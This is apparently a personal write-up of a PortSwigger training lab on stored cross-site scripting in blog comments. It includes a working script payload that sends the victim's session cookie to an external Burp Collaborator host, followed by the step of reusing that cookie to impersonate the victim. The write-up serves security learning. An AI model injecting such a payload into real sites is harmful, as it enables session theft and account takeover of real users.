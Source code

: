 This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

# Vuln assessment

Find the XSS injection point:

![[comment-body.png]]

The comment body is vulnerable.

Check the session cookie:

![[sess-cookie.png]]

It can be stolen from other users using a XSS vector.

# Exploitation

Craft an script that requests Burp collaborator containing the cookie value:

```Javascript
<script>
var a = new Image().src ="https://738kzsyp9mhw78ltblylb7d9c0ir6hu6.oastify.com?cc="+escape(document.cookie);
</script>
```

After injecting the payload check the collaborator tab:

![[Client-Side Vulnerabilities/XSS/Exploiting XSS/labs/Exploiting cross-site scripting to steal cookies/images/interaction.png]]


Finally replace the obtained cookie.
